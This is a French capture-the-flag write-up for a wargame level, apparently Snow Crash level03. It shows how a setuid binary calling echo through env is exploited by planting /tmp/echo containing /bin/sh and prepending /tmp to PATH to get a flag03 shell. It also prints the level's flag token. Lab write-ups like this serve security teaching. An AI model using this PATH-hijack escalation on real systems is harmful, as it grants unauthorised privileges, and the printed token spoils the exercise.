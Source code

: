 # level03

1) Commande utilisée pour trouver le fichier appartenant à `flag03` :

```bash
ls -l
```

2) Résultat notable trouvé :

Fichier : `./level03` appartenant à `flag03`

3) Exécution du binaire trouvé :

```bash
chmod +x level03
Exploit me
```

3) Inspection du binaire avec strings et file :

```bash
file level03
strings -n 6 level03 | grep echo
```
4) Résultats : 

Le binaire utilise echo depuis son PATH dans l'environnement et possède les droits de son créateur (setuid / setgid).
```bash
setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```
```bash
/usr/bin/env echo Exploit me
```

5) Objectif :

Détourner echo vers une invite de commande afin de lancer `getflag`.

```bash
echo '/bin/sh' > /tmp/echo
chmod +x /tmp/echo
```
Maintenant le script tmp/echo ouvre une invite de commande, et ensuite on change le PATH d'echo vers tmp/echo dans l'environnement.

```bash
export PATH=/tmp:$PATH
```

6) Nous voilà maintenant dans une invite de commande possédant les droits de flag03, il ne nous reste plus qu'à appeler getflag.

```bash
getflag
```
7) Token découvert :

le token est `qi0maab88jeaj46qoumi7maus`
